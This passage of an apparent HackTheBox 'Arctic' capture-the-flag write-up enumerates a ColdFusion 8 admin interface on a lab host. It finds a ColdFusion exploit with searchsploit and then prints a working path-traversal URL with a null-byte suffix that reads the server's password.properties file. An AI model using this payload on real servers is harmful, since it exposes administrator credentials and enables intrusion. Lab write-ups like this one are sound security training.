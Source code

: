 Navigating to `http://10.10.10.11:8500` reveals the **ColdFusion web interface**:

![Web port 8500](GitHubv2/HackTheBox/EASY/Arctic/screenshots/web_port_8500.png)  

Deeper exploration shows the `CFIDE` directory:

![CFIDE directory](GitHubv2/HackTheBox/EASY/Arctic/screenshots/web_8500_CFIDE.png)  

Key findings:
- The **administrator** directory is exposed  
- Pages use the `.cfm` extension (ColdFusion Markup)

![Administrator login page](GitHubv2/HackTheBox/EASY/Arctic/screenshots/web_8500_CFIDE_administrator.png)  

Testing authentication with random credentials shows encrypted values in the textbox: 

![Encrypted password field](GitHubv2/HackTheBox/EASY/Arctic/screenshots/web_password_encrypted.png)  

The encrypted values might represent a hash. We can reveal them by changing the HTML input type from `password` to `text` in the inspection view, allowing us to see the stored password hash:

![Inspection changing input type](GitHubv2/HackTheBox/EASY/Arctic/screenshots/inspection_password_to_type.png)  

This hash is not recognized by CrackStation, and after several attempts with Hashcat and John, it does not appear to correspond to a valid password.

---
## 3. Exploitation

### 3.1 Directory Traversal / LFI

Search for ColdFusion vulnerabilities:

```bash
searchsploit adobe coldfusion
```

![Searchsploit ColdFusion](GitHubv2/HackTheBox/EASY/Arctic/screenshots/searchsploit_coldfusion.png)  

The most promising is a **Directory Traversal** exploit:

```bash
searchsploit -x multiple/remote/14641.py
```

![Exploit details](GitHubv2/HackTheBox/EASY/Arctic/screenshots/searchsploit_download_sploit.png)  

The vulnerability describes an LFI in the following path:

```bash
http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en 
```

![LFI password.properties](GitHubv2/HackTheBox/EASY/Arctic/screenshots/web_port_8500_CFIDE_administrator_enter.png)  
